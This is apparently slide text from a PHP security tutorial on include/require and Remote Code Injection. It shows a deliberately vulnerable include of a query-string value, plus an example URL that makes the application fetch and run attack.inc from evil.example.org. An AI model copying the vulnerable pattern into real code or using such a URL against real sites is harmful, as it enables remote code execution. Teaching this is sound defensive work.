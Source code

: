 Other forms `include_once` and `require_once` helps you avoid including multiple time the same file.

--
# Beware!
The include statement includes and **EVALUATES** the specified file.

There is an **evil `eval()`** function behind those statements

> Be very carefull of using variables with include/require

```php
<?php
  // define a var $path somewhere

  include $path;
  // If a user can control the content of path, 
  // this is a recipe for disaster 
?>
```

--
## Remote code injection
A **Remote Code Injection (RCI)** attack occurs when an attacker is able to cause your application to execute PHP code of his choosing.

For example, you could use query string variables such as: `http://example.org/?section=news` to structure the application into sections.

Behind the scene, we will find something like:
```php
<?php
include "{$_GET['section']}/index.inc.php";
?>
```
--
# RCI
The previous code is very vulnerable. One could write: 
```
http://example.org/?section=http%3A%2F%2Fevil.example.org%2Fattack.inc%3F
```
The application will include attack.inc, located on the remote server, which treats /data.inc.php as part of the query string, thus effectively neutralizing its effect within your script.

> Any PHP code contained in attack.inc is executed

--
# RCI
Most of the time, the PHP configuration forbid remote file inclusion.

Safe, you think ?
